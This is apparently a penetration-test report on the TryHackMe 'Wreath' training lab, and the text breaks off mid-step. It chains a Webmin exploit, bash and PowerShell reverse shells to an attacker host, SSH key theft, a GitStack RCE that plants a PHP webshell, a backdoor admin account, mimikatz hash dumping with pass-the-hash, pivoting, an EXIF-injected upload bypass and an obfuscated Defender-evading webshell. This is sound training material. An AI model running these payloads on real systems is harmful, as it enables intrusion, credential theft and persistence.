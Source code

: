 # Wreath - Penetration Test Report

> Note: This is based on a fictitious engagement accessed through [Tryhackme](https://tryhackme.com/room/wreath)

![wreath network](wreath.png)

## Table of Contents

- [Executive Summary](#executive-summary)
- Findings and Remediations
  1. [Webserver (`.200`)](#1-webserver-200)
  2. [Pivoting with Webserver (`.200`)](#2-pivoting-with-webserver-200)
  3. [gitserver (`.150`)](#3-gitserver-150)
  4. [Personal PC (`.100`)](#4-personal-pc-100)
- [Conclusion](#conclusion)
- [References](#references)

_____________________________________

## Executive Summary

![wreath network](./wreathnetworkempty.png)

Our client, Thomas Wreath contacted us to perform a security penetration test on his computer network. Thomas briefed us on the high level architecture prior to the engagement. The scope includes the public facing webserver (local IP address `*.*.*.200`), git server of unknown IP address and his personal PC of also unknown IP address. We were tasked to find any vulnerabilities within the public facing webserver and to pivot to possibly to the git server or even his personal PC

By the end of the engagement, several vulnerabilities were found with suggested remediations detailed in this report. We were able to gain highest level of access to the public webserver, the git server, and Thomas' personal PC (despite having Windows Defender antivirus installed)

> Note: we will now refer to all local IP addresses by their last octect eg. `*.*.*.200` as `.200`

_____________________________________

## 1. Webserver (`.200`)

![wreath webserver](./wreathnetworkwebserver.png)

### Findings

- Vulnerable `MiniServ 1.890 (Webmin httpd)` running on port 80 - `CVE-2019–15107`
- ssh private keys was obtained after getting root access
- ssh on port 22 was enabled which allowed us to maintain access

<details>
<summary>Attack Narrative (click to expand)</summary>
<br>

_____________________________________

### Perform a network scan

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

Researching the Webmin version reveals this server is vulnerable to [`CVE-2019–15107`](https://www.cvedetails.com/cve/CVE-2019-15107/)

_____________________________________

### Webserver exploitation

Exploit used: `https://github.com/MuirlandOracle/CVE-2019-15107`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

_____________________________________

### Webserver maintain access - ssh private keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

With root access, we have read access to the private key `id_rsa`.

This key can be used to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

_____________________________________


</details>
<br>

### Remediation

- Update `MiniServ 1.890 (Webmin httpd)` to the latest version

_____________________________________

## 2. Pivoting with webserver (`.200`)

### Findings

- Using the webserver `.200`, we perform a scan of the network 
- Two hosts found with local IP addresses ending with `.100` and `.150`
- Host `.100` have filtered ports 
- Host `.150` have open ports that we can further enumerate on

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a network scan 

> We first upload a binary of nmap to the webserver and log in using ssh keys obtained previously

Ping scan - found `100` and `150` are up

```
[root@prod-serv tmp]# ./nmap-Neozer0 -sn 10.200.81.1-255 -oN scan-Neozer0

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:29 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
MAC Address: 02:8C:E0:55:7B:89 (Unknown)
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Host is up (0.00014s latency).
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Host is up (-0.10s latency).
MAC Address: 02:AD:06:35:A5:CB (Unknown)
Nmap scan report for ip-10-200-81-250.eu-west-1.compute.internal (10.200.81.250)
Host is up (0.00022s latency).
MAC Address: 02:E7:4E:C8:80:A7 (Unknown)
Nmap scan report for ip-10-200-81-200.eu-west-1.compute.internal (10.200.81.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

> Note: we ignore `.1 ` and `.250` (VPN server) here as they are out of scope

Scanning ports for `.100` returns filtered ports
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-14 10:17 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100) are filtered
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

Scanning ports for `.150` returns results
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:57 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00049s latency).
Not shown: 6142 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  epmap
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
47001/tcp open  winrm
MAC Address: 02:AD:06:35:A5:CB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 574.74 seconds
```

It is still unknown what this server is and more enumeration is required

### Clean up

- Delete /tmp/nmap-Neozer0

</details>
<br>

### Remediation

- None

_____________________________________

## 3. gitserver (`.150`)

![wreath gitserver](./wreathnetworkgitserver.png)

### Findings

- Ports `80`, `3389`, `5986` are open
- gitserver running `gitstack`
- gitserver vulnerable to unauthenticated RCE on `gitstack v2.3.10`
- Using rdp we were able to run mimikatz and obtain hashes for persistence

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan 

Scanning ports for `.150` revels port 80, 3389 and 5985 are open
```
[root@prod-serv tmp]# ./nmap-Neozer0 -p1-15000 10.200.85.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-16 23:49 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00083s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:4C:02:6B:0D:57 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 280.32 seconds
```

_____________________________________

### Examine the webpage on port 80

Webpage through port `80` is only visible if we were to access with Webserver `.200`. This can be done with sshuttle

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

> Note we use the ssh keys private keys again here

Visiting the webpage reveals that the server is using `gitstack` and a path `registration/login/` exists

![gitserver](gitPivot.png)

Visiting the page shows a login page (default admin/admin creds do not work here)

![gitserver login](gitstack.png)

_____________________________________

### GitStack exploitation

We obtain a gitstack exploit and modify to suit
Use searchsploit on gitstack
```
kali@kali:~/thm/wreath$ searchsploit gitstack
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GitStack - Remote Code Execution                                                                                                                                    | exploits/php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                                                                                                  | exploits/windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                                                                                                             | exploits/php/webapps/43777.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Download the potential RCE found with searchsploit
```
kali@kali:~/thm/wreath$ searchsploit -m 43777
  Exploit: GitStack 2.3.10 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/43777
     Path: /usr/share/exploitdb/exploits/php/webapps/43777.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/thm/wreath/43777.py
```

Change the ip address to target IP eg `10.200.85.150` and the location where the backdoor will live (`Neozer0-exploit.php`)

```python
ip = '10.200.85.150'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

...

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\Neozer0-exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/Neozer0-exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

These create PHP webshell `<?php system($_POST['a']); ?>` and echo it into `Neozer0-exploit.php` under webroot.

This can be accessed by posting a command to `/web/Neozer0-exploit.php`

Run `43777.py` - the backdoor will live in `IP/web/exploit-Neozer0.php`

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

> Note the `whoami` command runs on first execution

We can now run commands on the webshell using query params of `a`

Find hostname - `git-serv`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=hostname"
"git-serv
" 
```

Find OS  - `Windows`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=systeminfo"
"
Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763

...
```

_____________________________________

### Obtaining a reverse shell

This is a bit more difficult as we want to listen from our Attacking Machine for a nc connection through the Webserver `.200` to the gitserver `.150`. Here we use a socat relay

Start a nc listener on attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
listening on [any] 30000 ...
```

Open up a port on Web server `.200`
```
[root@prod-serv ~]# firewall-cmd --zone=public --add-port 29999/tcp
success
```

Set up a relay on `.200` (pass through to attacking machine)
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:29999 tcp:10.50.82.56:30000 &
[1] 2902
```

> Note: we upload a socat version to the `/tmp` directory to use

Execute a reverse shell

Use this command to get a reverse shell - use web server IP and port that was just opened
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.85.200',29999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Need to url encode the command first if using `curl`

Attacking machine
```
kali@kali:~/thm/wreath$ curl -X POST -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.85.200%27%2C29999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit-Neozer0.php
```

We receive a shell on our attacking machine!
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
[sudo] password for kali: 
listening on [any] 30000 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.200] 46412
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

_____________________________________

### Maintain access

From inital port scans we see that rdp is enabled on port 3389 (RDP) and 5985 (WinRM)

Since we already have ultimate access, we can create these users that can leverage rdp

We need to add the account to the Administrators and Remote Management Users groups 

```
PS C:\GitStack\gitphp> net user Neozer0 taco /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators Neozer0 /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" Neozer0 /add
The command completed successfully.
```


```
kali@kali:~/thm/wreath$ evil-winrm -u Neozer0 -p taco -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Neozer0\Documents> whoami
git-serv\neozer0
```

We access the server with rdp

run xfreerdp to get GUI rdp
```
kali@kali:~/thm/wreath$ xfreerdp /v:10.200.85.150 /u:Neozer0 /p:taco +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
[03:04:23:067] [2154:2155] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd

...
```

We can see a share folder that can be accessed on cli as `\\tsclient\`

![xfreerdp](xfreerdp-share-folder.png)

Run cmd as admin and run mimikatz

We can obtain the hashes by running: 
- `privilege::debug`
- `token::elevate`
- `lsadump::sam`


```
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                                                                    C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe                                                                                                                                                                                                                            .#####.   mimikatz 2.2.0 (x64) #18362 Jan  4 2020 18:59:26                                                                                 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                                                                                               

mimikatz # privilege::debug                                                                                                                 Privilege '20' OK                                                                                                                                                                                                                                                                       

mimikatz # token::elevate                                                                                                                   Token Id  : 0                                                                                                                               User name :                                                                                                                                 SID name  : NT AUTHORITY\SYSTEM                                                                                                                                                                                                                                                         672     {0;000003e7} 1 D 20141          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary                                      -> Impersonated !                                                                                                                           * Process Token : {0;000b5d45} 2 F 1722298     GIT-SERV\Neozer0        S-1-5-21-3335744492-1614955177-2693036043-1002  (15g,24p)    Primary                                                                                                                                             * Thread Token  : {0;000003e7} 1 D 1795378     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)                                                                                                                                                    

...

mimikatz # lsadump::sam                                                                                                                     Domain : GIT-SERV                                                                          User : Administrator                                                                                                                          Hash NTLM: ********************************                                                                                                                                                                                                                                           

...

RID  : 000003e9 (1001)                                                                                                       User : Thomas                                                                                                                  Hash NTLM: ********************************                                                

...
```

![xfreerdp mimikatz](xfreerdp-mimikatz.png)

With the Administrator's hash we can log in using evil-winrm's pass the hash without the use of socat relay and nc listener

```
kali@kali:~/thm/wreath$ evil-winrm -u Administrator -H ******************************** -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
git-serv\administrator
```

_____________________________________

### Clean up

- Delete `/tmp/socat-Neozer0` - webserver
- Delete `/Neozer0-exploit.php` - gitserver
- Delete user `Neozer0` - gitserver
- Remove firewall port open rule on port 29999

</details>
<br>

### Remediation

- Update GitStack to the latest version

_____________________________________

## 4. Personal PC (`.100`)

![wreath all network](./wreathnetworkall.png)

### Findings

- Ports 80 and 3389 are open
- PHP 7.4.11 is used
- Webpage source code can be found in the gitserver `.150`
- Analysing git commits we see a new path on the website `/resources` with an upload feature
- There are two filters on the upload feature to bypass
  - File extension
  - Image size
- php injected into `Comment` of the image exifdata allows us to get a webshell
- Misconfigured privilege found on `SystemExplorerHelpService` execution path allowing us to inject our own executable and obtain shell running as root

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan on Personal PC (`.100`)

First we run evil-winrm with `-s` to specify path to scan script `Invoke-Portscan`

Performing portscans reveal ports `80` and `3389` are open
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.85.100 -TopPorts 50

Hostname      : 10.200.85.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 21, 23...}
finishTime    : 4/22/2021 10:49:34 AM
```

Next we check out the webserver

_____________________________________

### Check out the webserver on Personal PC (`.100`)

Because the Personal PC port 80 is only opened to the gitserver `.150`, we need to perform additional steps.

Chisel forward proxy is a good option with sshuttle being used.

1. Open up a port in Windows firewall (we chose port 34999 here)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh advfirewall firewall add rule name="Chisel-Neozer0" dir=in action=allow protocol=tcp localport=34999
Ok.
```

2. Start a `chisel client` on attacking machine

```
kali@kali:~/thm/wreath$ chisel client 10.200.85.150:34999 9090:socks
2021/04/22 06:34:39 client: Connecting to ws://10.200.85.150:34999
2021/04/22 06:37:28 client: Connected (Latency 262.542935ms)
```

3. Upload chisel (Windows version) to Git server (`.150`) and run `chisel server` (note we chose port 34999)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload /tmp/chisel c:\windows\tmp\chisel-Neozer0.exe

*Evil-WinRM* PS C:\Users\Administrator\Documents> c:\windows\tmp\chisel-Neozer0.exe server -p 34999 --socks5
chisel-Neozer0.exe : 2021/04/22 11:37:19 server: Fingerprint 4YNhTCGX+gcPiJEUdmRj7Qil1srdihA8ooqp0LBNLnY=
    + CategoryInfo          : NotSpecified: (2021/04/22 11:3...hA8ooqp0LBNLnY=:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2021/04/22 11:37:19 server: Listening on http://0.0.0.0:349992021/04/22 11:37:27 server: session#1: Client version (0.0.0-src) differs from server version (1.7.6)

```

4. Now port forwarding is connected, we set up Foxy proxy with the following settings
- IP 127.0.0.1
- Port 9090
- Proxy type SOCKS5
![foxyproxy setting](foxyproxysetting.png)

5. visit 10.200.85.100 - this is a clone of Thomas' personal website
6. Using Wappalyzer we detect php version used on this page

![local web server](wapplocalwebserver.png)

_____________________________________

### gitserver (`.150`) code review

We find `Webserver.git` on the git server in `C:\GitStack\repositories`

```
*Evil-WinRM* PS C:\> ls GitStack/repositories


    Directory: C:\GitStack\repositories


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2021   7:05 PM                Website.git
```

Download the entire directory and use GitTools to analyse commits and use GitTools to extract git
```
kali@kali:~/thm/wreath$ ./GitTools/Extractor/extractor.sh gitserver/downloaded-website/ gitserver/Website                                                                                             
###########
# Extractor is part of https://github.com/internetwache/GitTools

...

[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[+] Found folder: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css                                                                                              
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/.DS_Store                                                                                      
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/bootstrap.min.css
```

We see the extracted directories are commits
```
kali@kali:~/thm/wreath/gitserver/Website$ ls
0-70dde80cc19ec76704567996738894828f4ee895  2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
```

We use a bash one liner to loop through all the folders `commit-meta.txt` and read out more details

```
kali@kali:~/thm/wreath/gitserver/Website$ separator="====="; for i in $(ls); do printf "\n\n$separator\n$i\n$(cat $i/commit-meta.txt)";done


=====
0-70dde80cc19ec76704567996738894828f4ee895
tree d6f9cc307e317dec7be4fe80fb0ca569a97dd984
author twreath <me@thomaswreath.thm> 1604849458 +0000
committer twreath <me@thomaswreath.thm> 1604849458 +0000

Static Website Commit

=====
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
tree c4726fef596741220267e2b1e014024b93fced78
parent 82dfc97bec0d7582d485d9031c09abcb5c6b18f2
author twreath <me@thomaswreath.thm> 1609614315 +0000
committer twreath <me@thomaswreath.thm> 1609614315 +0000

Updated the filter

=====
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
tree 03f072e22c2f4b74480fcfb0eb31c8e624001b6e
parent 70dde80cc19ec76704567996738894828f4ee895
author twreath <me@thomaswreath.thm> 1608592351 +0000
committer twreath <me@thomaswreath.thm> 1608592351 +0000

Initial Commit for the back-end
```

The commits are in these order:
1. `Static Website Commit` - `70dde80cc19ec76704567996738894828f4ee895`
2. `Initial Commit for the back-end` - `82dfc97bec0d7582d485d9031c09abcb5c6b18f2`
3. `Updated the filter` - `345ac8b236064b431fa43f53d91c98c4834ef8f3`

We look for php files in the folder `345ac8b236064b431fa43f53d91c98c4834ef8f3`

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ find . -name "*.php"
./resources/index.php
```

Partial of index.php:

```php
<?php

        if(isset($_POST["upload"]) && is_uploaded_file($_FILES["file"]["tmp_name"])){
                $target = "uploads/".basename($_FILES["file"]["name"]);
                $goodExts = ["jpg", "jpeg", "png", "gif"];
...

        <!-- ToDo:
                  - Upgrade the filter on this page. Can't rely on basic auth for everything
                  
```

Interesting part is the filters here
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

This line has `getimagesize` method that checks if image has dimensions - returns `False` if file is not an image
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
```

This line checks for two conditions, if either fails, we get error message.
- First condition split string by `.` into an array and checks second item
  - `image.jpeg` returns `["image", "jpeg"]`
  - But `image.jpeg.php` returns `["image","jpeg","php"]` and `jpeg` gets passed into the filter
  - This filter then checks if it is not in the array of `$goodExts`
- Second condition checks if the file is not an image

After two conditions pass, the file gets moved into `uploads/` directory with original name
```php
$target = "uploads/".basename($_FILES["file"]["name"]);
```

We also find a folder `/resources` which may be a directory on the web to check out

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ ls
commit-meta.txt  css  favicon.png  fonts  img  index.html  js  resources
```

_____________________________________

### Visit `/resources` endpoint

we can visit `http://10.200.85.100/resources` where we are greeted with a login prompt

![login prompt](./resources.png)

Try Thomas' hash that we cracked earlier

User: Thomas

Password: *******

.. And we're in

Upload a normal jpg file and access it through `/resources/uploads/FILE.jpg`

Upload success
![upload success](./uploadsuccess.png)

And we see our image
![upload access](./uploadaccess.png)

Now to upload an exploit to get webshell. We need to bypass the two filters
1. The file extension can be bypassed with `.jpeg.php`
2. The image size will require an actual image with shell injected in the exifdata, specifically the `Comment` field
   
Take a regular image and rename it with `.jpeg.php` extension

Run `exiftool` on the image
```
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php 
ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:30:57-04:00
...
```

There is also AV installed on this target. It may detect any default PHP webshell uploaded and alert the victim. The first step then is to create a proof of concept before we can work out an AV bypass.

Harmless PHP payload - `<?php echo "<pre>Test Payload</pre>"; die();?>` 

We add this to the image with exiftool
```
kali@kali:~/thm/wreath$ exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-Neozer0.jpeg.php
    1 image files updated
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:35:37-04:00

...

Comment                         : <?php echo "<pre>Test Payload</pre>"; die(); ?>

...
```

Now we upload this benign payload and access it on the browser to see that the test payload has worked and we are able to execute PHP code on the system!

![upload poc](./uploadpoc.png)

_____________________________________

### Exploit with AV Evasion 

Given that we know the AV used on the PC is Windows Defender (preinstalled with Windows Server):
  - We build payload in a slightly less common way
  - We obfuscate manually or using a tool online

Payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

We use online [php obfuscator](https://www.gaijin.at/en/tools/php-obfuscator) with all obfuscation options set and we get:

```php
<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>
```

Make a new copy of the image and inject our new payload
```
kali@kali:~/thm/wreath$ cp ~/Downloads/corg.jpg ./shell-Neozer0.jpeg.php
